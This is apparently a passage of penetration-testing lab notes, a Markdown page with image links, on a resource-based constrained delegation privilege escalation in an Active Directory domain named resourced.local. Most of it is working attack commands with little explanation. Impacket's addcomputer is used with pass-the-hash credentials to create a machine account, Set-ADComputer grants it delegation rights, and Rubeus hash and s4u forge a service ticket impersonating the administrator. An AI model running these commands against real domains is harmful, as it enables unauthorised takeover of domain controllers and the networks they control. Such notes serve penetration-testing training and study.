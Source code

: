 This uses impacket, rubeus, and powerview

```bash
$ impacket-addcomputer -dc-ip 192.168.52.175 -hashes 19a3a7550ce8c505c2d46b5e39d6f808:19a3a7550ce8c505c2d46b5e39d6f808 -computer-name virusspec -computer-pass virusspec  resourced.local/l.livingstone

# check that computer was added
*Evil-WinRM* PS C:\temp> Get-DomainComputer virusspec
```

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%205.png)

Give it ability to delegate to account

```bash
Set-ADComputer resourcedc -PrincipalsAllowedToDelegateToAccount virusspec$
Get-ADComputer resourcedc -Properties PrincipalsAllowedToDelegateToAccount
```

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%206.png)

Get hashes of account and generate ticket

```bash
.\Rubeus.exe hash /password:virusspec /user:virusspec$ /domain:resourced.local
.\rubeus.exe s4u /user:virusspec$ /aes256:13CFBF4DC91A29C85350DB95FB535490BCBC3EBE68E9202520B8E4E84DFBD4F9 /aes128:C465E916E526790A0BCB29F0940C5464 /rc4:C6AF05D4D2B464CB7EEB12DF769F8C41 /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /domain:resourced.local /ptt /nowrap /altservice:cifs,host
```
